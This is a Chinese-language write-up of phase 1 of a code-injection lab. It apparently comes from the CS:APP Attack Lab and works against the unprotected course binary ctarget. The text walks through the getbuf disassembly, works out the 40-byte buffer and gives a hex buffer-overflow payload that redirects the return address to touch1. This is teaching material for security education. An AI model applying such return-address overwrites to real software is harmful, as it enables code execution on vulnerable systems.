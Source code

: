 代码注入(CI)攻击所适合的程序是比较简单的程序，这些程序一般没有栈随机化、栈保护者以及栈不可执行等栈保护措施。

通常的CI攻击也就是在输入字符串(攻击代码)中包含一些和某些指令的位模式相同的字符序列，并且该输入字符串的长度会超出缓存区的大小，以便修改某些函数的返回地址，使后续的pc可以指向我们所需要执行的指令(通常是之前我们在栈中所传递的指令)。

本次所有CI攻击的对象程序都是`ctarget`，该程序无任何栈保护措施。

##### 3.21 第一关

###### 3.211 任务要求

第一关的目标是让我们使用CI攻击，使程序返回到`touch1`函数。

以下是题目所给的`touch1`函数的c语言代码：
![touch1](image/2021-07-13-14-40-00.png)

###### 3.212 任务解答

这一关比较简单，所给的`touch1`函数没有任何实参需要传递，所以我们可以直接通过修改`getbuf`函数的返回地址为`touch1`的函数地址来达到返回`touch1`函数的目的。

所以解题步骤为：
1. 确定缓冲区尺寸和`touch1`的函数地址。
2. 编写16进制的攻击代码，并用所提供的工具将其转换成字符串。
3. 将该字符串输入到程序中，进行攻击。

我们需要知道`getbuf`函数中的数组占用了多少的栈内存，因为在编译后就确定了尺寸，所以我们可以通过查看`getbuf`函数的汇编代码来确定：
```bash
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
由此可知数组的大小为40字节。

为了得知`touch1`的函数地址，我们可以查看`touch1`函数的汇编代码：
```bash
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  #后面的代码省略
```
由此可知`touch1`的函数地址为`0x4017c0`。

实验所提供的工具程序`hex2raw`需要我们输入由空格或换行符分隔的一个个16进制对，所以我们的16进制的攻击代码可以为以下内容(要注意小端法机器的字节顺序)：
```c
/* 该内容存放在strs1文件中 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 0a /* the addr of touch1 */
```
